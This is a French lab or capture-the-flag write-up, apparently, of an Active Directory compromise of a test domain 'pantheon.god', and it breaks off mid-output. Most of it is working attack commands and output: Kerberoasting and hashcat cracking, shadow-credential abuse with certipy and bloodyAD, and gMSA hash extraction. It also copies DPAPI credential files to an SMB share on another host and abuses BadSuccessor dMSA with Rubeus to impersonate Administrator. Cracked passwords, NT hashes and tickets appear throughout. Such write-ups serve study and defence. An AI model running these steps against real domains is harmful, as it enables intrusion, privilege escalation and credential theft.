4dde2e338901801f3077f3bcc42d4bb4c75d30a4d21661a5e67d820241eef439dfbcf324df0747c000bc823ab91cd9e5edd78fcfaf585150a2bfadbe3535e3698c224cdab7f2cfefedf399d02359a990193b9d97907d95f223e425b59491e97c5129c7d002c4ed8e8ca63e591cf3c01109b72c49b25de0c7657935586cfec4fb75f13eba9a693db0c3f4b98388c72122a782198107a4e6d61365607f5c9b2f91b8a6f19316ed956fe952e597cc594cec8559afa9cb1431d14bd900a6a3e83e3234b434bdcd51b2862a69e7937fbda7aa70632df4c74f64c9348a2bfa7f126026a9e9a21bcc3513a7123abf3c8cdfd9739101bba3a4bf52d7c78922a6003ab7d5578aac44f1336ec1d81c34bff9c70f68f7932be19a65d5cf00b96286885a1017658f674a981d53ebb1e1e [smbscores@pantheon.god][Jun 22, 2025 - 23:40:12 (CEST)] exegol-pantheon_wu writeup # -
On trouve effectivement que hercule est le seul utilisateur dont le
mdpà pus être retrouver avechashcatsmbscores@pantheon.god][Jun 22, 2025 - 23:45:50 (CEST)] exegol-pantheon_wu scan # hashcat --hash-type 13100 --attack-mode 0 Kerberoastables.txt `fzf-wordlists` hashcat (v6.2.6) starting .... $krb5tgs$23$*hercule$PANTHEON.GOD$pantheon.god/hercule*$aa9ccd3d56303ff1475981267ff6a9b8$2f7bcb43d4d4587dbc1c625599553784d26a2347a5bd7a9f056b7e7d2b9f6d31bb93173e824ebcffed3e6b01103eb5a8e9827bd8455a373a50faa5fe0fd21725a0f2ae080a8e4c3fbaccfb41fc642f74e8238ff9b646718bcd59411926f2a6442a2d539440b0599f4fd3c7fb797332c7e09de70ada10af736cb837abc595a65cbe561b7fcc8c41aa2b2329af3eac8e5085e260d4c06fe622497a01383580801fb7152b3b90a04854b88dfe88a6ac472402c192b71c6b4b5bb5586ff655e4b54e713bb08ecb77dd50edd93f3a919df5ad700c54f20cb2647ef9f2fb997dd6627fcbd8c62b37e0da4cd4cb06d676ea48ad6628e3f52ef401e793b7b2049a2c8b068da21d377c8b41fa42aa22f37281f19c3aa4a45b26242669d32425f05b565e9f2a581ee45ca275101cb87fedb909a1c240480cfb8f0cb2d59ae4615ecb7ec30d6ca307a56d48ef022fa16f3b2e4abf4bf89060df5bc940ad1dff7f5d5419cd30c910360f830a493f6150f4651cd1b5a986f09b479c540ed1e0bcd86293e02e456181d2f59ec19a01f0396f3c56c72d75ee5a3d0394509bebc34f78f17c2f59a265eed0942bb08327b5d0074d7631e3bd13b5371e40b23ccf8f59ceb7a6ea2bd2f88673362442e62155452b19d3b88ee6c55a3970e73dd47c44f6b025bf4db0a226302d85f01403b2ea8ac0e5f04a94e0ab8a3de141342e3e62c8111ac6bacbb199970549916f814a1ddbad28c8e59deb989c7f22ddf207334a3e655ead0284a504c3ddfd5eca1491a1c10b0d1b60eaa1e2a4dddbec8ffa3262326091406e486682f3b46b0389ec7b42a7ee80c08552c83b9df8d7e72da16d8381bd65fcfe4a60e2a5214877573af59064d894b03236941ac851cb13ad54d2bbe6fd3220cf63f61cc14dfbbee922ded7613d373ca1f58912babadaaae4788fcdb5bf5c8109dd6695301bad72dec1364187ee2759b7743ed7340e960cdfe832dca8c12f055e970348704dfe6df3857c46132b126b44dd7b2c0e21452fdf6f88dba351ab4cc27f08eace50ed6e1eb564b61fddefa2f014ed6c76769078846726e3f596fc60269dc44f0038c575fac8ff5877583f1bb2463e3f4978c19396a4ca54c54896d0ceaf841d9354dbb3ae117816c51804d95fa2f4ede4c60d3a372b90cace99b26fbe92624da58676e68b4e15e4ed5e73178b73bb726f44609a60afbd6c461c6489d7119b9fc8babebb85285d0c75c05250cfd218fcafe07a2754e076b67033d3f4f32ebead3e97332569b48a2e0ccbaee31e5913d1886c2fc2e8982386feabdcaeb0f6b51273830ecd6cb85fbe0bcd237dbddebf029335fc24d90ccaa2faf86c7eb2981e2588039f3b5534ba1c48505fcabbd5678c1f8664f517f39c0de8ac3ed00f696ccecf01b36914a0c0bea2f804c540b0c8e460b16c7c7c9e16ccc365d788b2f59daff3abe406a9deea327424146091cda71d83327b5192113f5f644576b126121a5424a1a6da0e62de340f23f5c1e5631c876b578b6b02da43e3ad408e7124:Worksucks! .... Stopped: Sun Jun 22 23:46:18 2025 -
Avec
rusthoundqui est un injestor bloodhound fait en rust on peut récupérer les information relative aux domain pour les lire surbloodhound(boodhound.pyne fonctionne pas ici)rusthound -d "$DOMAIN" -u "$USER"@"$DOMAIN" -p "$PASSWORD" --zip --ldaps --adcs --old-bloodhound --------------------------------------------------- Initializing RustHound at 00:14:53 on 06/23/25 Powered by g0h4n from OpenCyber --------------------------------------------------- [2025-06-22T22:14:53Z INFO rusthound] Verbosity level: Info [2025-06-22T22:14:53Z INFO rusthound::ldap] Connected to PANTHEON.GOD Active Directory! [2025-06-22T22:14:53Z INFO rusthound::ldap] Starting data collection... [2025-06-22T22:14:53Z INFO rusthound::ldap] All data collected for NamingContext DC=pantheon,DC=god [2025-06-22T22:14:53Z INFO rusthound::ldap] All data collected for NamingContext CN=Configuration,DC=pantheon,DC=god [2025-06-22T22:14:53Z INFO rusthound::json::parser] Starting the LDAP objects parsing... [2025-06-22T22:14:53Z INFO rusthound::json::parser::bh_41] MachineAccountQuota: 10 ⢀ Parsing LDAP objects: 52% [2025-06-22T22:14:53Z INFO rusthound::modules::adcs::parser] Found 11 enabled certificate templates [2025-06-22T22:14:53Z INFO rusthound::json::parser] Parsing LDAP objects finished! [2025-06-22T22:14:53Z INFO rusthound::json::checker] Starting checker to replace some values... [2025-06-22T22:14:53Z INFO rusthound::json::checker] Checking and replacing some values finished! [2025-06-22T22:14:53Z INFO rusthound::modules] Starting checker for ADCS values... [2025-06-22T22:14:53Z ERROR rusthound::modules::adcs::checker] Couldn't connect to server http://pantheon-dc01.pantheon.god/certsrv/, please try manually and check for https access if EPA is enable. [2025-06-22T22:14:53Z INFO rusthound::modules] Checking for ADCS values finished! [2025-06-22T22:14:53Z INFO rusthound::json::maker] 35 users parsed! [2025-06-22T22:14:53Z INFO rusthound::json::maker] 69 groups parsed! [2025-06-22T22:14:53Z INFO rusthound::json::maker] 2 computers parsed! [2025-06-22T22:14:53Z INFO rusthound::json::maker] 5 ous parsed! [2025-06-22T22:14:53Z INFO rusthound::json::maker] 1 domains parsed! [2025-06-22T22:14:53Z INFO rusthound::json::maker] 1 cas parsed! [2025-06-22T22:14:53Z INFO rusthound::json::maker] 33 templates parsed! [2025-06-22T22:14:53Z INFO rusthound::json::maker] 2 gpos parsed! [2025-06-22T22:14:53Z INFO rusthound::json::maker] 21 containers parsed! [2025-06-22T22:14:53Z INFO rusthound::json::maker] .//20250623001453_pantheon-god_rusthound.zip created! RustHound Enumeration Completed at 00:14:53 on 06/23/25! Happy Graphing!
On vois que notre utilisateur hercule est membre du groupe OLYMPE-IMORTAL-HEROS et que ce groupe à un generic write sur plusieurs utilisateur fessant tous partie du groupe TITANTS-BANNIS

Un des utilisateur de ce groupe est particulièrement intéressant car il fais partie du groupe remote desktop users et du groupe remote management users deux groupes ayant un droit d’accès a distance aux machine windows du domaine,

Étant donner qu’il y a un ADCS sur le DC, on peut récupérer un TGT et le hash de l’utilisateur cronos avec l’attaque shadowcredential avec bloodyAD+gettgtpkinit.py ou simplement avec certipy
Mais dans les deux cas on ce retrouve avec l’erreur suivante :
KDC_ERR_CLIENT_REVOKED Detail: "Client’s credentials have been revoked"
[hercule@pantheon.god][Jun 23, 2025 - 00:48:57 (CEST)] exegol-pantheon_wu bloodhound # certipy shadow auto -u "$USER"@"$DOMAIN" -p "$PASSWORD" -account "$TargetUser"
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Targeting user 'cronos'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'e9474057-1a78-2009-8229-bacb5681ca2d'
[*] Adding Key Credential with device ID 'e9474057-1a78-2009-8229-bacb5681ca2d' to the Key Credentials for 'cronos'
[*] Successfully added Key Credential with device ID 'e9474057-1a78-2009-8229-bacb5681ca2d' to the Key Credentials for 'cronos'
[*] Authenticating as 'cronos' with the certificate
[*] Using principal: cronos@pantheon.god
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[*] Restoring the old Key Credentials for 'cronos'
[*] Successfully restored the old Key Credentials for 'cronos'
[*] NT hash for 'cronos': None
[hercule@pantheon.god][Jun 23, 2025 - 00:42:58 (CEST)] exegol-pantheon_wu bloodhound # bloodyAD -s --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add shadowCredentials $TargetUser
[+] KeyCredential generated with following sha256 of RSA key: 4c6845977d25d5faa2c085eb0b4125977399c5f9905176713b85257adc71d61f
No outfile path was provided. The certificate(s) will be stored with the filename: zgmkD2Xx
[+] Saved PEM certificate at path: zgmkD2Xx_cert.pem
[+] Saved PEM private key at path: zgmkD2Xx_priv.pem
A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
Run the following command to obtain a TGT:
python3 PKINITtools/gettgtpkinit.py -cert-pem zgmkD2Xx_cert.pem -key-pem zgmkD2Xx_priv.pem pantheon.god/cronos zgmkD2Xx.ccache
[hercule@pantheon.god][Jun 23, 2025 - 00:43:29 (CEST)] exegol-pantheon_wu bloodhound # gettgtpkinit.py -cert-pem zgmkD2Xx_cert.pem -key-pem zgmkD2Xx_priv.pem pantheon.god/cronos zgmkD2Xx.ccache
....
minikerberos.protocol.errors.KerberosError: Error Name: KDC_ERR_CLIENT_REVOKED Detail: "Client’s credentials have been revoked"
[hercule@pantheon.god][Jun 23, 2025 - 00:44:05 (CEST)] exegol-pantheon_wu bloodhound #
On comprend que le compte est desactiver et qu’il va falloire d’abord le réactiver affin de pouvoir l’utiliser, ce qui est possible avec bloodyAD par exemple :
[hercule@pantheon.god][Jun 23, 2025 - 01:19:39 (CEST)] exegol-pantheon_wu bloodhound # bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" remove uac $TargetUser -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from cronos's userAccountControl
-
Ainsi maintenant que le compte est réactiver, on peut l’utiliser pour effectuer notre attaque
shadowcredentialset récupérer le hash de cette utilisateur[hercule@pantheon.god][Jun 23, 2025 - 01:19:41 (CEST)] exegol-pantheon_wu bloodhound # faketime "$(rdate -n $IP -p | awk '{print $2, $3, $4}' | date -f - "+%Y-%m-%d %H:%M:%S")" zsh [hercule@pantheon.god][Jun 23, 2025 - 01:19:54 (CEST)] exegol-pantheon_wu bloodhound # certipy shadow auto -u "$USER"@"$DOMAIN" -p "$PASSWORD" -account "$TargetUser" Certipy v4.8.2 - by Oliver Lyak (ly4k) [*] Targeting user 'cronos' [*] Generating certificate [*] Certificate generated [*] Generating Key Credential [*] Key Credential generated with DeviceID '4db42bb3-8180-1c94-cfd4-104cb704ffea' [*] Adding Key Credential with device ID '4db42bb3-8180-1c94-cfd4-104cb704ffea' to the Key Credentials for 'cronos' [*] Successfully added Key Credential with device ID '4db42bb3-8180-1c94-cfd4-104cb704ffea' to the Key Credentials for 'cronos' [*] Authenticating as 'cronos' with the certificate [*] Using principal: cronos@pantheon.god [*] Trying to get TGT... [*] Got TGT [*] Saved credential cache to 'cronos.ccache' [*] Trying to retrieve NT hash for 'cronos' [*] Restoring the old Key Credentials for 'cronos' [*] Successfully restored the old Key Credentials for 'cronos' [*] NT hash for 'cronos': d903644e45874322d8403de4c267ba64 [hercule@pantheon.god][Jun 23, 2025 - 01:19:59 (CEST)] exegol-pan
On confirme qu’il peut bien utiliser win-rm sur le dc

-
Une fois connecter en tant que cronos, on remarque un répertoire peux habituel
coliseumqui appartient à l’utilisateurathenaet sur le quel nous avons tout les droits :*Evil-WinRM* PS C:\Users\cronos\Documents> ls / Directory: C:\ Mode LastWriteTime Length Name ---- ------------- ------ ---- d----- 6/21/2025 7:38 PM coliseum d----- 6/10/2025 4:36 AM inetpub d----- 4/1/2024 7:02 AM PerfLogs d-r--- 6/10/2025 4:21 AM Program Files d-r--- 4/1/2024 8:16 AM Program Files (x86) d----- 6/21/2025 7:37 PM shares d-r--- 6/22/2025 11:26 PM Users d----l 6/21/2025 7:05 PM vagrant d----- 6/21/2025 7:31 PM Windows d----- 6/10/2025 2:15 PM Windows.old *Evil-WinRM* PS C:\Users\cronos\Documents>*Evil-WinRM* PS C:\coliseum> icacls "C:/coliseum/" C:/coliseum/ BUILTIN\Administrators:(F) PANTHEON\cronos:(OI)(CI)(F) NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F) BUILTIN\Administrators:(I)(OI)(CI)(F) BUILTIN\Users:(I)(OI)(CI)(RX) BUILTIN\Users:(I)(CI)(AD) BUILTIN\Users:(I)(CI)(WD) PANTHEON\athena:(I)(F) CREATOR OWNER:(I)(OI)(CI)(IO)(F)$path = "C:\coliseum" (Get-Acl -Path $path).Access ... FileSystemRights : FullControl AccessControlType : Allow IdentityReference : PANTHEON\cronos IsInherited : False InheritanceFlags : ContainerInherit, ObjectInherit PropagationFlags : None ... FileSystemRights : FullControl AccessControlType : Allow IdentityReference : PANTHEON\athena IsInherited : True InheritanceFlags : None PropagationFlags : None FileSystemRights : 268435456 AccessControlType : Allow IdentityReference : CREATOR OWNER IsInherited : True InheritanceFlags : ContainerInherit, ObjectInherit PropagationFlags : InheritOnly -
A l’intérieur un fichier
shell.ps1vide sur le quel on à un contrôle totale et qui semble être executer par une tâche planifier
……………..
Une fois connecter en tant que athena, on peux upload GMSAPasswordReader.exe pour obtenir le hash du compte svc_thunderB$
*Evil-WinRM* PS C:\Users\cronos\Documents> cd "C:/coliseum/"
*Evil-WinRM* PS C:\coliseum> upload /workspace/writeup/GMSAPasswordReader.exe
Warning: Remember that in docker environment all local paths should be at /data and it must be mapped correctly as a volume on docker run command
Info: Uploading /workspace/writeup/GMSAPasswordReader.exe to C:\coliseum\GMSAPasswordReader.exe
Data: 139944 bytes of 139944 bytes copied
Info: Upload successful!
*Evil-WinRM* PS C:\coliseum>
PS C:\coliseum> .\GMSAPasswordReader.exe --AccountName 'svc_thunderB$'
Calculating hashes for Current Value
[*] Input username : svc_thunderB$
[*] Input domain : PANTHEON.GOD
[*] Salt : PANTHEON.GODsvc_thunderB$
[*] rc4_hmac : 64BD4596337D081643C878A6CD976307
[*] aes128_cts_hmac_sha1 : 2982C32362FBCC3C8327BE65974A93CF
[*] aes256_cts_hmac_sha1 : 7E38C98D4BCAAC2D749C4E3111A3B9222FBF174D6B410B5210282AB9D884324C
[*] des_cbc_md5 : C1168CC4E04A7A89
PS C:\coliseum>
On voit avec bloodhound que l’on à un génericWrite sur tout les Dieux à l’exeption de Zeus l’Administrateur du domain. Le dieux avec les droit les plus intérrésant semble être hades qui à un genericAll sur l’OU ENFERS et les enfant de cette dernière.
[svc_thunderBpantheon.god][Jun 24, 2025 - 04:05:14 (CEST)] exegol-pantheon_wu bloodhound # certipy shadow auto -u "$USER"@"$DOMAIN" -hashes ":$NT_HASH" -account "$TargetUser"
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Targeting user 'hades'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '6f54e71b-36b6-d118-f042-2279e54006d6'
[*] Adding Key Credential with device ID '6f54e71b-36b6-d118-f042-2279e54006d6' to the Key Credentials for 'hades'
[*] Successfully added Key Credential with device ID '6f54e71b-36b6-d118-f042-2279e54006d6' to the Key Credentials for 'hades'
[*] Authenticating as 'hades' with the certificate
[*] Using principal: hades@pantheon.god
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'hades.ccache'
[*] Trying to retrieve NT hash for 'hades'
[*] Restoring the old Key Credentials for 'hades'
[*] Successfully restored the old Key Credentials for 'hades'
[*] NT hash for 'hades': ead49bdbe3311143eeafbcb14d8ae126
-
Avec
WinPEAS, on trouve qu’il y a des credentials dans ladpapils "$env:APPDATA\Microsoft\Credentials" -Fo ls "$env:APPDATA\Microsoft\Protect" -Fo ls C:\Users\hades\AppData\Roaming\Microsoft\Credentials\ -Fo ls C:\Users\hades\AppData\Roaming\Microsoft\Protect\ -Fo -ReRemove-Item "$env:APPDATA\Microsoft\Protect\*" -Fo Remove-Item "$env:APPDATA\Microsoft\Credentials" -Fo Remove-Item "C:\Users\hades\AppData\Roaming\Microsoft\Credentials\*" -Fo Remove-Item "C:\Users\hades\AppData\Roaming\Microsoft\Protect\*" -Fo#server smbserver.py -smb2support share . #Client copy "C:\Users\hades\AppData\Roaming\Microsoft\Credentials\B220D0D6995B10FC4B5718D982AB1B0A" \\192.168.56.1\\share\\credential copy "C:\Users\hades\AppData\Roaming\Microsoft\Protect\S-1-5-21-20107180-75155701-1075408035-1133\e2fb222d-1757-4b92-9fd7-094e19c608f7" \\192.168.56.1\\share\\masterkey
Avec un genericALL sur une OU il y a un Windows Server 2025 une vulnérabilité récente au moment ou j’écris ce writeup du nom de BadSuccessor peut être exploiter.
Pour des raison que j’ignore elle ne peux pas êter exploiter directement sur le DC, mais on peux l’exploiter sur une machine jointe au domaine, ce qui tombe bien car dans notre environnement il y a une autre machine pantheon-enfers.pantheon.god à la quel hades peut ce connecter à distance.
Le problème c’est qu’il va nous falloir une session RDP pour effectuer cette exploit. Mais nous n’avons pas le mdp de hades.
Le hash pourrait être utiliser pour ce connecter en RDP si il été administrateur local de la machine, ce qui n’est pas le cas.
Cependant ce dernier à un généricALL sur tout les objet de l’OU ENFERS dont orphee qui peut rdp sur la machine pantheon-enfers.pantheon.god.
On donne donc un genericALL sur une OU à orphee pour qu’il puisse exploiter badsuccessor à la place de hades.
hades@pantheon.god][Jun 26, 2025 - 02:38:28 (CEST)] exegol-pantheon_wu bloodhound # stobject "OU=ELYSEE,OU=ENFERS,DC=PANTHEON,DC=GOD"
TargetObject set to 'OU=ENFERS,DC=PANTHEON,DC=GOD'
[hades@pantheon.god][Jun 26, 2025 - 02:39:13 (CEST)] exegol-pantheon_wu bloodhound # stcontrolledprincipal orphee
ControlledPrincipal set to 'orphee'
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p ":$NT_HASH" add genericAll $TargetObject $ControlledPrincipal
Il va nous falloire compiler le binaire SharpSuccessor.exe et Rubeus.exe dans sa version 2.3.3 minimum :
https://github.com/logangoins/SharpSuccessor
https://github.com/GhostPack/Rubeus
*Evil-WinRM* PS C:\Users\hades\Documents> upload /workspace/writeup/exploit/SharpSuccessor.exe
*Evil-WinRM* PS C:\Users\hades\Documents> upload /workspace/writeup/exploit/Rubeus.exe
Premièrement on va crée un un dMSA sur l’OU ENFERS sur la quel nous avons un droit createChildavec SharpSuccessor.exe
PS C:\Users\hades\Desktop> .\SharpSuccessor.exe add /impersonate:Administrator /path:"OU=ENFERS,DC=PANTHEON,DC=GOD" /account:orphee /name:pwned_dMSA
_____ _ _____
/ ____| | / ____|
| (___ | |__ __ _ _ __ _ __| (___ _ _ ___ ___ ___ ___ ___ ___ _ __
\___ \| '_ \ / _` | '__| '_ \\___ \| | | |/ __/ __/ _ \/ __/ __|/ _ \| '__|
____) | | | | (_| | | | |_) |___) | |_| | (_| (_| __/\__ \__ \ (_) | |
|_____/|_| |_|\__,_|_| | .__/_____/ \__,_|\___\___\___||___/___/\___/|_|
| |
|_|
@_logangoins
[+] Adding dnshostname pwned_dMSA.pantheon.god
[+] Adding samaccountname pwned_dMSA$
[+] Administrator's DN identified
[+] Attempting to write msDS-ManagedAccountPrecededByLink
[+] Wrote attribute successfully
[+] Attempting to write msDS-DelegatedMSAState attribute
[+] Attempting to set access rights on the dMSA object
[+] Attempting to write msDS-SupportedEncryptionTypes attribute
[+] Attempting to write userAccountControl attribute
[+] Created dMSA object 'CN=pwned_dMSA' in 'OU=ENFERS,DC=PANTHEON,DC=GOD'
[+] Successfully weaponized dMSA object
PS C:\Users\hades\Desktop> .\Rubeus.exe tgtdeleg /nowrap
______ _
(_____ \ | |
_____) )_ _| |__ _____ _ _ ___
| __ /| | | | _ \| ___ | | | |/___)
| | \ \| |_| | |_) ) ____| |_| |___ |
|_| |_|____/|____/|_____)____/(___/
v2.3.3
[*] Action: Request Fake Delegation TGT (current user)
[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/pantheon-dc01.pantheon.god'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: HMqUhWU8WupaHB+glfk5VQUV9llzHa876Aa0XuGFLPo=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):
doIFjDCCBYigAwIBBaEDAgEWooIElDCCBJBhggSMMIIEiKADAgEFoQ4bDFBBTlRIRU9OLkdPRKIhMB+gAwIBAqEYMBYbBmtyYnRndBsMUEFOVEhFT04uR09Eo4IETDCCBEigAwIBEqEDAgECooIEOgSCBDaY/IXr0VvYXbwRSdf+G7rmOdF6WwntJQoDum/IbgJIZlsnJuObYMvrTZ0DukrhXP6pp4dbIoiidATPFAzwsy9pYbmtUHnvCm3xabKjxeRbQq9Xo9tKOX2qhqJvcElWSCkVDA0KBNY/bs4WCmF1ACKUoDYIHszQfCUUY7JVTpLmO7olQfNnpyv4NA/tOpfMmo4lXCJufIy81c76OtKpk2g46lhJbcWVZaE6y/21C9bahCQLC3Om/5i36lQS5mlE5P61zXy2K2EjOA+Q9mcvfTumgWApaQrDPP2z5dYmhcB5TMJN+5IZgxL/xLu3BS367V+0AKGhz9SREUhpWO7BSyvGb/ZlgE3hRcc3R14YDVOWJeDqhVr6/D+6C4+NaFCWsN4VKN8aLLFwSCU97Vkdvclqs08f4iZ54CR6I59UW82iPa1O5K4bX+O9kGd60t/h1+mHnmKt4MN8ORlLlqDzDen1IAdn4RS1/IHg0FySO1OtqGxY653iesKbbfIUkAiapfGKlapDD03JbduODmZCsCoJ9aS31n1+Qob3CgEO3rOjyKp2uHsaYV7jrxbeIkiyXB3AH/kLvGNhkNfZCj2MEWqoS7R+BIV7KTPUD25NH3pb/GKZzHY4ua22J2ipF/Wl6CGVb2JTzw8Te2/Jf6geVnBsQpV+JkPYC32xZEr+za2o2u0QytniaxSZXqVykhZjCXMPmi4RA20Jar22PRVa6YTKkv1yt2/DAepugQEEHC+/StwMANmXHF7YbzlQSMeUQCmYV2wv+/fmFHp2n59F9evY8DAXWid8QUG9wGEAURvDbAsT7D0EcBYBqXL2Kj2LoKplVeif7Yc/WIPyiXE8EHl75MFB+isIdTUcZkLrETlh6sUR1ei7HvS4Q4KPjN9viFS5IutxMwWmiYwNbtTkPaPZ7B4o+GuX5p5oMYzYeI/eQ/vQ7LERSv3QHsr0L2kqBS4HPU+kdRxLy6c/VDjtESdDAb7vQjfdpgyBoAyZFfHmBK6bIk0H4uucI273xyVZFbZ0zWy0EHzrm5kIyaQL2ECLmHr8n2gwpMQ7trN4sbf0IeAV8WM20+pQ3D5Arc1CceH+IL1fIoUbErRbbnTSNI4qb620y7GiJ9MzVL+z04prviulKeKGEDWzu7I3h7/Gi7oygDsQmrMlUvXLrT0nVyuMMLP1WZBJI1JBXlDkziQckwuoArGy1ZvhyHUb0fyplTW05Rl1YBdcegbn/eLgD/xt558H1KDdvhkoscVlKEvNKTFjbcJkiESJrIreUP5vaElcg1FV6JCuFXZCgF+p1GZS/n7YGSwOJ9f+PPeYrr4DejNIPmfzdXlx34JfsXzQUaBOEotfUQnUU9eRkzSZtp09/SZvs5HTTKBrVc8ySrWfccpHKsqYknIiAiepCY2ZpjzgUjSBLLOl1Brii8D4uH6MJBkQrAUso4HjMIHgoAMCAQCigdgEgdV9gdIwgc+ggcwwgckwgcagKzApoAMCARKhIgQgFLSEDL2+vdNw2peo8khxhS1IS+pJa2UBSm2WMU3CzyChDhsMUEFOVEhFT04uR09EohIwEKADAgEBoQkwBxsFaGFkZXOjBwMFAGChAAClERgPMjAyNTA2MjExMTU3MjNaphEYDzIwMjUwNjIxMjE1NjM3WqcRGA8yMDI1MDYyODExNTYzN1qoDhsMUEFOVEhFT04uR09EqSEwH6ADAgECoRgwFhsGa3JidGd0GwxQQU5USEVPTi5HT0Q=
PS C:\Users\hades\Desktop> .\Rubeus.exe asktgs /targetuser:pwned_dMSA$ /service:krbtgt/pantheon.god /opsec /dmsa /nowrap /ptt /ticket:doIFjDCCBYigAwIBBaEDAgEWooIElDCCBJBhggSMMIIEiKADAgEFoQ4bDFBBTlRIRU9OLkdPRKIhMB+gAwIBAqEYMBYbBmtyYnRndBsMUEFOVEhFT04uR09Eo4IETDCCBEigAwIBEqEDAgECooIEOgSCBDY0lRuxN5TRUtZZ5p1HdpRVdHLfSSQMtI1oYS2Dk1zJjFJirGGJAHokqeRc0dQrevSqBiNQFZ5ZF6K6fEc/WLKpUPp6g+iZHjMNkoFdVLi3llL8bsmNLIv3xEiGWv7vBWXFDBrpWx6fP2XCaPnEjZAqrZTg/kdjtOnOwqVWx0jFERU5n/+d7U2iwq1B2gPpGzMIBeD0TiYk0pnXvBQhQ/I3VlmZKQQ2+ko5DyTwEmvJ9b9Il+2Y7MvpblzS7ZOKzGuNpDvAl6+L80e7dNjz+GCkxtgN71/gxfDEgQXW3E9JXmXiE5W0cZjbEcmPQd0lMag1Jjui2uRmpABVh9wHq35QuN5bWDjseFBLPHGc0/H9SQ1DQdWk83H/UsUdQ0BRqdOLXAig1uwVDTr0eNP7trmRU+OM8hYl2n6/eqnsb0GQ6OyuixBq9nPQu8xC7a5lg3OgICSpsuyzIh0EBWVvNRYgSz2kFwQgKrS6SyrOQgzTXjC/iN1qZn3FGHF2xCFunffmcT3NLXaVnLAEic4RjhBR5GPAhRx4fcAF12ywNoOBX0e9ZfzEKgyz8vOuXa86LQeZpjWiRH6XPgy6d4rISvUtaqysDxFXrT0SKjleahtwu9jjLPOtQyhKMRRjEPaP3CfCs9o4qE6zxPi84iM3CXMYRpFKxDZLSytKFbMDs57h+FELwVlldnDAx28R0iRPr7cEB9amSo7E153tNIuTCc9Pi+zLlzp5gKEmIfn3lPX85XlZgP6Xcb+MrUszzZjQSftTOR6iKhtBqmjqcg5PqfeHNf37ozTrC2y4QEmgdk6bbtfPFFrgPVsDBox3KxQ9RyehC7flS1lmMGqXkiuVlW7hf5MmK8nOd+NT3Fc3Ru0BOk11HP/4Ey6MS4YYl+DiijwzpnsV7wsexV4ZeUMpUZsQML20Oz4zGJdFYZbDvNex7UNXTF67GEBKUZ6DCaI5u1wu4rpnio980qWHGGvZpffAgMMN0/75OrxRx7A3ex0JziJGKl7mYx4G9cE4TqPULBucWRbFXrlye66ErJynU32q+OkUZT8T73RCbOQiP0fF2sJn8jibDQNBpjpWsihZ6/dpiGE5VDvM8z/bfWIzW9fdngXZdy4AKZBWrkGqAbDZ4m3QynqeQN17Hddr8IduuRZtLY14EVkAQb/as7RtGPVsezAkWFulYdEWN+nvdg/lcAXI0H1oD1tqjnKggsPn7fmviRON3mhoc06/6e014ZQqC0v2UsyX8THF39b5XPbKsMxpH0nB02ylkpoCXpMBaNvS5qgZz8s9PkZpO6zOCU6jXZFTy/cP7rYdSvJCwP+aunMNCMikUVv3yplqvDwNVeSVGYqGjh7b7TFNhW2e7TWrdwjh0y/HyOF7r9W/hyYdq3/KCUwr/VAvc0AssKxIITGVu40Kqbh0V8CDn4lfyTIc/vbYMOcuo4HjMIHgoAMCAQCigdgEgdV9gdIwgc+ggcwwgckwgcagKzApoAMCARKhIgQgB1IFfI8U0q+NLYeGtCaKV+tZ869EwB13phVfpJdvG4ShDhsMUEFOVEhFT04uR09EohIwEKADAgEBoQkwBxsFaGFkZXOjBwMFAGChAAClERgPMjAyNTA2MjExOTM5MDJaphEYDzIwMjUwNjIyMDUzOTAxWqcRGA8yMDI1MDYyODE5MzkwMVqoDhsMUEFOVEhFT04uR09EqSEwH6ADAgECoRgwFhsGa3JidGd0GwxQQU5USEVPTi5HT0Q=
______ _
(_____ \ | |
_____) )_ _| |__ _____ _ _ ___
| __ /| | | | _ \| ___ | | | |/___)
| | \ \| |_| | |_) ) ____| |_| |___ |
|_| |_|____/|____/|_____)____/(___/
v2.3.3
[*] Action: Ask TGS
[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building DMSA TGS-REQ request for 'pwned_dMSA$' from 'orphee'
[+] Sequence number is: 1951566350
[*] Using domain controller: pantheon-dc01.pantheon.god (192.168.56.11)
[+] TGS request successful!
[+] Ticket successfully imported!
[*] base64(ticket.kirbi):
